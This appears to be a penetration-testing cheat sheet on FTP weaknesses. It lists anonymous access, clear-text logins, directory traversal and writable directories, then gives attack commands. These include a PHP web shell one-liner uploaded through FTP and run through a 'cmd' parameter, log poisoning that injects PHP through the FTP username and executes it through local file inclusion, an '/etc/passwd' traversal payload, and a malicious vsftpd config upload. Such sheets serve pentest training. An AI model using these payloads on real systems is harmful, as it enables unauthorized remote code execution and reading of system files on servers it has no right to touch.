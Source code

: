 ### **1. Anonymous Access**
- **Risk**: Unauthorized file access/upload
- **Detection**: `ftp-anon` Nmap script
- **Exploitation**: Mass download, malicious uploads

### **2. Clear-text Authentication**
- **Risk**: Credential interception  
- **Detection**: Network sniffing
- **Mitigation**: Use FTPS/SFTP

### **3. Directory Traversal**
- **Risk**: Access outside FTP root
- **Exploitation**: `../../../etc/passwd`
- **Detection**: Manual testing

### **4. Write Permissions**
- **Risk**: Web shell upload
- **Exploitation**: Upload PHP/ASPX shells
- **Impact**: Remote code execution

## **FTP Attack Vectors**

### **1. Web Shell Upload**
```bash
# Create PHP web shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Upload to web-accessible FTP directory
ftp> put shell.php

# Access via web browser
http://target.com/ftp_dir/shell.php?cmd=id
```

### **2. Log Poisoning**
```bash
# Inject code in FTP logs via username
ftp target_ip
# Username: <?php system($_GET['cmd']); ?>

# Include FTP log in LFI
http://target.com/page.php?file=/var/log/vsftpd.log&cmd=id
```

### **3. Configuration Exploitation**
```bash
# Exploit writable config
ftp> put malicious.conf vsftpd.conf

# Service restart triggers malicious config
# Potential RCE or privilege escalation
```
